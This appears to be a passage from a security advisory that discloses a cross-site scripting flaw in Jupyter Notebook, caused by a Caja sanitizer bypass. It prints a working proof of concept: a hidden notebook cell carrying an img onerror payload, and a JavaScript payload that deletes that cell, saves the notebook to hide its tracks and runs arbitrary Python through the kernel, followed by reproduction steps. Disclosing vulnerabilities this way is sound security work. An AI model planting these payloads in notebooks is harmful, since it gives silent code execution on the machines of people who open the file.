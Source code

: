 ![image](https://user-images.githubusercontent.com/33089/138129626-be464eaa-ee0d-40a9-8a03-3eb7a1ef2c78.png)

Caja is confused by the start of an iframe encapsulated in a select tag. The resulting AST does not correctly represent this HTML code which leads to the `<img>` attributes not being sanitized. As a result it executes the onerror callback when the image loads (because the src is invalid). We can also use a valid source image by changing onerror to onload.

We tried the snippet on the latest version of Google Caja and it didn’t work, the vulnerability was patched. However when we tried to include this in our Jupyter document, the javascript was executed when the notebook was opened. To hide it, we created a cell at the end of the notebook:

```json
  {
  "cell_type": "code",
  "execution_count": 0,
  "metadata": {},
  "outputs": [
   {
    "data": {
     "text/html": [
      "<select><iframe></select><img src=x: onerror=alert('xss')>\n"],
     "text/plain": []
    },
    "metadata": {},
    "output_type": "display_data"
   }
  ],
  "source": [
   ""
  ]
 }
```

Once the XSS is triggered, the Javascript code can make use of the Jupyter API to execute arbitrary code on the victim’s computer. To make the attack stealthier, it can also delete the malicious cell and write back the file to disk. For information, he is the Javascript payload we used to weaponize the vulnerability during our Security Assessment.

```javascript
  var timerId = setInterval(function() {
   if (!Jupyter.notebook.kernel) return;
   if (!Jupyter.notebook.kernel.is_connected()) return;

   Jupyter.notebook.delete_cell(LAST_CELL_NB);
   Jupyter.notebook.save_notebook();
   Jupyter.notebook.kernel.execute(python_payload, null, {});
   clearInterval(timerId);
 }, 100);
```

The following code is a minimal ipynb document triggering the vulnerability. To replicate it, a user needs to:
  1. Install jupyter notebook: pip install notebook
  2. Launch it (in the directory contains the PoC file): jupyter notebook
  3. Open the minimal_poc_notebook.ipynb document, the XSS is triggered.

#### XSS due to lack of sanitization of the action attribute of an html `<form>`
